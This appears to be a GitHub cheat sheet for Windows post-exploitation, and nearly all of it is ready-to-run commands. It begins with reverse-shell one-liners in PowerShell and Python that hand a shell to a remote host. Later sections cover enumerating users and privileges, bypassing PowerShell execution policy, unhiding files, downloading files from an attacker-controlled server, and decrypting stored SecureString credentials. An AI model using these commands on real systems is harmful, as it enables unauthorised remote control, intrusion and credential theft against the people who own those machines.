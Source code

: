 ## getting a reverse shell:-
powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" (via powershell)<br />
or<br />
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' (via python) 

## first move to a powershell:-
powershell.exe

## then the obvious:-
whoami<br />
echo %username% (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
$ENV:USERNAME (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
whoami /priv<br />
net user<br />
net localgroup Administrators<br />
Get-ExecutionPolicy<br />
powershell.exe -ep bypass (to set execution policy to bypass)<br />
Get-Host | Select-Object Version (to check the whole version of powershell)<br />
$PSVersionTable.PSVersion.Major (to check the version of powershell)


## About the system and proccess running:-
systeminfo<br />
tasklist<br />
([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator) (to check if you r admin or not)<br />
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1") (to check for smb version 1)<br />

## Locate files in the whole drive
dir filename.extension /s (do it from C:\ folder)(supports regex)

## Unhide directories and files
* attrib -h -r -s /s /d C:\*.* (The C drive can be changed to any drive of your choice)
* GCI alias Get-ChildItem
    1. -Recurse       - It digs deep into the child dir.           
    2. -Force or -FO  - It shows the hidden dir too. 
    #### usage example 
        gci c:/ -recurse -force 
<br />

## To Download somthing from the internet or intranet:-
powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")<br />
powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name > Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

$credential = Import-CliXml -Path  PathToXml\MyCredential.xml <br />
$credential.GetNetworkCredential().Password <br />

### If you have a single string

$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString <br />
[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))
